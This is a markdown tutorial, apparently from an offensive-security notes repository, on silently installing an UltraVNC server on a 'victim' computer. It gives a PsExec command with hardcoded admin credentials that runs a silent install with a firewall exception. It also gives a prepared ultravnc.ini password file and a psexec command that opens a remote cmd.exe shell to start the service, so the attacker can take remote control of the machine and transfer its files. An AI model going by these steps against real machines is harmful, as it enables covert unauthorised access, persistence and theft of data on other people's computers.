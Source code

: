 # VNC (UltraVNC) Remote Desktop Connectin Server/Client

UltraVNC is an open-source remote-administration/remote-desktop-software utility. The client supports Microsoft Windows and Linux but the server only supports Windows. It uses the VNC protocol to control/access another computer remotely over a network connection.

![UltraVNC](assets/uvnc.jpg "Open source UltraVNC remote desktop client/server")

## Install VNC Server to Victim Computer

You can remotely view, control or transfer files the victim computer using the UltraVNC tool. For this, follow the steps below.

### Step 1: Download UltraVNC setup

Copy current version of ultravnc from the website to your computer as **"c:\\uvncsetup.exe"**.

### Step 2: Start installation 

To start silent installation on victim computer run **"uvncsetup.exe"** as remotely using **PsExec.exe** below. The command copy the specified executable (uvncsetup.exe) to the remote system for execution:

> psexec \\\victim -u admin -p admin0 -h -i -c C:\uvncsetup.exe /SP- /VERYSILENT /SUPPRESSMSGBOXES /NOCANCEL /NORESTART /CLOSEAPPLICATIONS /FORCECLOSEAPPLICATIONS /LOGCLOSEAPPLICATIONS /RESTARTAPPLICATIONS /NOICONS /FIREWALL /NOVIEW /COMPONENTS="ultravnc_server" /TASKS="installservice,stopservice" /DIR="%programfiles%\uvnc"

The inno setup parameters above allow the installation to complete silently. The installation files will be saved in the **"%program files%\uvnc"** directory on victim computer.

### Step 3: Define new password 

Create the **ultravnc.ini** file with the password defined in the **"%programfiles%\uvnc"** of the victim computer. 
UltraVNC password is "**admin0**" defined in **ultravnc.ini**. The ini file content is below:

[ultravnc]
passwd=56B6ACA18D1BA76008
passwd2=56B6ACA18D1BA76008

Copy the file to **"%programfiles%\uvnc"** folder on victim computer.

### Step 4: Restart the service

Start the service for the password to take effect. To restart the service open an interactive remote shell to victim computer below:

> psexec \\victim -u admin -p admin0 -h -i cmd.exe

And run below command over remote shell:

> net start uvnc_service

### Step 5: Restart the service

Run UltraVNC viewer and connect to victim computer. You can control it with mouse/keyboard or download/upload files via UltraVNC's  file manager.

![UltraVNC Viewer](assets/uvnc_viewer.png "UltraVNC Viewer")